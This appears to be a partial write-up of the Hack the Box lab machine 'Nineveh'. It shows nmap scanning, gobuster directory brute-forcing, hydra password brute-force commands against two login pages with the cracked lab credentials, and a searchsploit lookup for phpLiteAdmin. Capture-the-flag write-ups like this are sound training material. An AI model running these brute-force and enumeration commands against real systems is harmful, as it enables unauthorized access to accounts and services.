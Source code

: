 # Hack the Box - Nineveh


## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.43 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.43
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

```CSS
▶ nmap -sC -sV -p 80,443 10.10.10.43 -oN deep.nmap

Nmap scan report for 10.10.10.43
Host is up (0.18s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

---

## HTTP
![image](https://user-images.githubusercontent.com/83878909/234479646-7b054e0f-a213-479e-9a80-3d63bdcbb1ef.png)

---

## HTTPS/SSL
![image](https://user-images.githubusercontent.com/83878909/234479727-ccec4c69-ee5a-4d14-b0ac-20744987d630.png)

## SSL Certificate Information
```CSS
▶ openssl s_client -connect nineveh.htb:443
```
![image](https://user-images.githubusercontent.com/83878909/234488440-5c959a74-496a-48b6-87c9-8ff1ddb0ad47.png)

---

## Content Discovery
  - Directory brute-force - `http://nineveh.htb`
```CSS
▶ gobuster dir -u nineveh.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![image](https://user-images.githubusercontent.com/83878909/234485858-a451bd36-d418-447e-924a-bdecc2cd8c61.png)
![image](https://user-images.githubusercontent.com/83878909/234485999-3f3e259c-2a1d-420a-ac1f-4a41b74b2480.png)

  - Directory brute-force - `https://nineveh.htb`
```CSS
▶ gobuster dir -u https://nineveh.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --no-tls-validation
```
![image](https://user-images.githubusercontent.com/83878909/234487716-3c05a713-9514-4b7e-848f-5686b58b320b.png)
![image](https://user-images.githubusercontent.com/83878909/234484978-13d104de-2e36-46c6-8f17-fbb217cf826e.png)

---

## Brute-force Credentials
  - Page: `http://nineveh.htb/department/login.php`
```CSS
▶ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 60
```
![image](https://user-images.githubusercontent.com/83878909/234488924-25dd7cb9-7e32-4297-a545-3f04f699c6f7.png)
```CSS
Credentials: admin:1q2w3e4r5t
```

  - Page: `https://nineveh.htb/db/index.php`
```CSS
▶ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 60
```
![image](https://user-images.githubusercontent.com/83878909/234490465-5b8c57b0-03c2-4385-b2cc-a8bff186fdd9.png)
```CSS
Credentials: admin:password123
```
---
  - Home: `http://nineveh.htb/department/manage.php`
![image](https://user-images.githubusercontent.com/83878909/234503125-7b01ee2d-05ab-4a4d-99c3-34203400bef2.png)

  - Notes: `http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt`
![image](https://user-images.githubusercontent.com/83878909/234503429-75a2e5b6-f739-4093-b2c2-b137aea0dd91.png)

---

  - Dashboard: `https://nineveh.htb/db/index.php`
![image](https://user-images.githubusercontent.com/83878909/234558464-b656bd0d-0942-4420-8e46-bbfbb833705f.png)

---

## Searchsploit
```CSS
▶ searchsploit phpLiteAdmin
```
![image](https://user-images.githubusercontent.com/83878909/234558865-27ea3b54-64e7-4c1a-8ab4-527e8278b051.png)
